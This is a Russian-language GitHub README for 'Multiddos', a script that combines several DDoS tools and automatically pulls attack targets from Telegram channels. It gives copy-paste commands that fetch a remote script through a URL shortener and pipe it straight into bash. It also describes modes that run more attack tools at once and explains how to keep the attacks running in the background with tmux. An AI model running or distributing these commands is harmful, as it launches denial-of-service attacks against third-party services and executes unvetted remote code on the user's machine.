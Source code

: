 ## Multiddos - скрипт объединяющий в себе несколько утилит для ddos
Идея скрипта заключается в том, чтобы автоматизировать сразу несколько утилит, объединить несколько групп в более массированные атаки, а также не давать простаивать свободным ресурсам на VPS.

![multiddos](https://user-images.githubusercontent.com/53382906/161972523-a1197762-a166-45f2-9b68-6e13cc940d99.gif)

На данный момент скрипт поддерживает:
* [Multiddos](https://github.com/KarboDuck/multiddos) (ранее известный как auto_mhddos) от Украинского Жнеца ([канал](https://t.me/ukrainian_reaper_ddos), [чат](https://t.me/+azRzzKp-STpkMjNi))
* [db1000n ](https://github.com/Arriven/db1000n) от IT ARMY of Ukraine ([канал](https://t.me/itarmyofukraine2022), чат)
* [UA Cyber SHIELD](https://github.com/opengs/uashield) ([канал](https://t.me/uashield), чат) 

Все утилиты автоматизированы, то есть автоматически обновляются при запуске и автоматически подтягивают новые цели из своих каналов.

## Команда для запуска в Linux

Рекомендуется использовать именно этот метод
```
curl -L tiny.one/multiddos | bash && tmux a
```

Скрипт запускает tmux сессию. Если закрыть терминал или оборвать ssh сессию, то программы не закроются, а будут дальше работать в фоне. После повторного подключения к сессии Tmux все программы снова появятся на экране.

Внутри окна Multiddos запускается утилита для мониторинга gotop (можно смотреть за исходящим трафиком, нагрузкой на процессор, и использованием RAM) и утилиты, перечисленные выше. 

## Выбор режима
<details>
  <summary>развернуть</summary>
  

В программе доступно 3 основных режима. -m1, -m2, -m3, по количеству запускаемых утилит.

* `-m1` запускает только  Multiddos (обвертка для mhddos_proxy от Украинского жнеца)

```
curl -L tiny.one/multiddos -o mul.ti && bash mul.ti -m1 && tmux a
```

* `-m2` запускает Multiddos + db1000n (этот режим используется по умолчанию)
```
curl -L tiny.one/multiddos -o mul.ti && bash mul.ti -m2 && tmux a
```
* `-m3` запускает Multiddos + db1000n + uashield (на данный момент не рекомендуется, так как эффективность uashield не ясна, он дублирует атаки по тем же целям, что и утилиты выше, и часто вылетает)

```
curl -L tiny.one/multiddos -o mul.ti && bash mul.ti -m3 && tmux a
```
* `--matrix` режим матрицы (эффект матрицы в небольшом окне). Был добавлен в режиме тестирования, позже решили оставить как опцию.

```
curl -L tiny.one/multiddos -o mul.ti && bash mul.ti --matrix && tmux a
```
 
</details>

## Запуск в фоне

Для того, чтобы запустить Multiddos в фоне достаточно просто убрать в конце команды вызов Tmux.

```
curl -L tiny.one/multiddos | bash
```
Чтобы подключиться к сессии tmux (вывести программы на экран) прочитайте ниже пункт **Переподключиться к сессии Tmux**.


## Управление Tmux

* **Свернуть Tmux**. Программы продолжат работать в фоне, и к сессии можно будет снова подключиться. `Нажмите Ctrl+b` отпустите `Нажмите d`
* **Закрыть сессию Tmux**. Сначала выйдите из Tmux: `Нажмите Ctrl+b` отпустите `Нажмите d`. Выполните в терминале команду `tmux kill-session -t multiddos`
* **Переподключиться к сессии Tmux**. Если у вас всего одна сессия Tmux, то используйте: `tmux a` (tmux attach). Если у вас несколько сессий, подключайтесь по имени: `tmux attach-session -t multiddos`

## Закрыть все программы
Поскольку программы продолжат работать в фоне после закрытия терминала, закрывать их нужно другими способами.

1. В другом терминале выполнить команду:
```
pkill tmux; pkill node; pkill shield; pkill -f start.py; pkill -f runner.py
```

2. Или при желании просто перезагрузить компьютер/виртуалку.